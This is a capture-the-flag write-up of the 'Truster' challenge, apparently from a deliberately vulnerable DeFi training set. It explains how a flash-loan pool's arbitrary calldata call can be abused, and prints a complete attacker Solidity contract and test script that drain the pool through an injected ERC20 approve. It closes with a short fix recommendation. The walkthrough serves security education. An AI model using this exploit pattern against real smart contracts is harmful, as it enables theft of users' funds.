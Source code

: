 # Truster

## Introduction
The goal is to siphon all the funds from a pool in a single transaction.

## Code Breakdown
There is only 1 smart contract and consist of 1 function ***flashLoan***.
Let's start by looking at the variable.
```
using Address for address;
IERC20 public immutable damnValuableToken;
```
Both variables are using openzepplin libraries. Links given below showcase the function available to each cast.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

<https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20>

Next, an IERC20 token address is called during the constructor
```
constructor (address tokenAddress) {
    damnValuableToken = IERC20(tokenAddress);
}
```

Lastly, the ***flashLoan*** function requires 4 variables.
```
function flashLoan(
    uint256 borrowAmount,
    address borrower,
    address target,
    bytes calldata data
)
```
It checks if the amount of token in the pool is more than borrow amount
```
uint256 balanceBefore = damnValuableToken.balanceOf(address(this)); 
require(balanceBefore >= borrowAmount, "Not enough tokens in pool"); 
```

After the check, it'll transfer the token to the borrower and execute a low level call
```
damnValuableToken.transfer(borrower, borrowAmount); //transfer to borrower
target.functionCall(data);
```

Finally, it will check if the flash loan is returned to the pool
```
uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
```

Since there are Reentrancy Guard employued in the contract and function, it is not plausible for a reentrancy attack. A direct transfer of token is not an option as well.
Let's look at the ***target.functionCall(data)***
Reference: <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol>

Notice that it calls for ```return functionCallWithValue(target, data, 0, "Address: low-level call failed!");```.

Tracing that, we'll arrive at this function. Now we can find a way to call a function within the flashloan.
```
require(address(this).balance >= value, "Address: insufficient balance for call");
(bool success, bytes memory returndata) = target.call{value: value}(data);
return verifyCallResultFromTarget(target, success, returndata, errorMessage);
```

## Hints
We can call a low level approval that allow the attacker to transfer funds on the behalf of this contract. Here's the flow:
1) Execute flashloan
2) Within the flashloan, ***target.functionCall(data);*** will execute an approval for attacker to transfer token on the contract's behalf in the future
3) Return the flashloan and complete the function
4) Transfer the tokens on behalf of the contract

Here are reference links to read up
Reference: <https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-approve-address-uint256->

<https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transferFrom-address-address-uint256->

## Solution
Here's an easy solution. We want to execute a low-level call to authorise our attacker address to transfer tokens in the future. Here's the statement to obtain the call data.
```
bytes memory attackcalldata = abi.encodeWithSignature(
    "approve(address,uint256)",
    address(this),
    tokens
);
```

Then, we'll drop the call data into the flashLoan function when it'll execute the ***approve*** call.
```
pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
```

Lastly, the attacker is now an authorised user to transfer token on behalf of the smart contract pool.
```
damnValuableToken.transferFrom(address(pool), msg.sender, tokens);
```

A new smart contract is drawn up for this solution. Here's the codes.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../truster/TrusterLenderPool.sol";

/**
 * @title TrusterAttacker
 * @author BingleBangle-BH's attacker contract
 */
contract TrusterAttacker is ReentrancyGuard {

    IERC20 public immutable damnValuableToken;
    TrusterLenderPool public immutable pool;

    constructor (address _pool, address _token){
        pool = TrusterLenderPool(_pool);
        damnValuableToken = IERC20(_token);
    }

    function drainFunds(uint256 tokens) external nonReentrant{
        bytes memory attackcalldata = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            tokens
        );
        pool.flashLoan(0, msg.sender, address(damnValuableToken), attackcalldata);
        damnValuableToken.transferFrom(address(pool), msg.sender, tokens);

    }
}
```

Here's the call from javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const attackerpool = await ethers.getContractFactory('TrusterAttacker', attacker);
    this.attack = await attackerpool.deploy(this.pool.address, this.token.address);
    await this.attack.connect(attacker).drainFunds(TOKENS_IN_POOL);
});
```

## Recommendations
Do not allow unidentified users to insert calldata. If need be, always check ```msg.sender``` against a list of whitelisted address.